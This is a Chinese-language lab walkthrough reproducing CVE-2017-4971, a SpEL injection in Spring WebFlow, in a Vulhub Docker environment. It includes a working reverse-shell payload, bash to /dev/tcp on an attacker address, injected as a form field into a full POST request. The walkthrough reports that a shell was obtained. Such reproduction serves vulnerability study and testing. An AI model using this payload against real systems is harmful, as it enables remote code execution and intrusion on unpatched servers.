 # Spring WebFlow 远程代码执行漏洞 CVE-2017-4971

## 漏洞描述

Spring WebFlow 是一个适用于开发基于流程的应用程序的框架（如购物逻辑），可以将流程的定义和实现流程行为的类和视图分离开来。在其 2.4.x 版本中，如果我们控制了数据绑定时的 field，将导致一个 SpEL 表达式注入漏洞，最终造成任意命令执行。

参考链接：

- https://threathunter.org/topic/593d562353ab369c55425a90
- https://pivotal.io/security/cve-2017-4971

## 环境搭建

Vulhub 运行测试环境：

```
docker-compose up -d
```

等待环境启动后，访问 `http://your-ip:8080`，将看到一个酒店预订的页面，这是 spring-webflow 官方给的简单示例。

## 漏洞复现

首先访问 `http://your-ip:8080/login`，用页面左边给出的任意一个账号/密码登录系统：

![image-20220301141732657](images/202203011417883.png)

然后访问 id 为 1 的酒店 `http://your-ip:8080/hotels/1`，点击预订按钮“Book Hotel”，填写相关信息后点击“Process”（从这一步，其实 WebFlow 就正式开始了）：

![image-20220301141904282](images/202203011419530.png)

再点击确认“Confirm”：

![image-20220301141916160](images/202203011419396.png)

此时抓包，抓到一个 POST 数据包，我们向其中添加一个字段（也就是反弹 shell 的 POC）：

```
_(new+java.lang.ProcessBuilder("bash","-c","bash+-i+>%26+/dev/tcp/192.168.174.128/9999+0>%261")).start()=vulhub
```

最终的 POST 数据包如下：

```
POST /hotels/booking?execution=e3s2 HTTP/1.1
Host: your-vps-ip:8080
Content-Length: 172
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://your-vps-ip:8080
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://your-vps-ip:8080/hotels/booking?execution=e3s2
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: lang=zh-CN; COOKIE_SUPPORT=true; GUEST_LANGUAGE_ID=en_US; JSESSIONID=E489BFF839A3C8D346F45D1B1A8BF03F
Connection: close

_eventId_confirm=&_csrf=5509ae82-f763-41a3-b347-44f09e16fd2e&_(new+java.lang.ProcessBuilder("bash","-c","bash+-i+>%26+/dev/tcp/192.168.174.128/9999+0>%261")).start()=vulhub
```

![image-20220301143832936](images/202203011438058.png)

成功执行，获得 shell：

![image-20220301143749029](images/202203011437112.png)
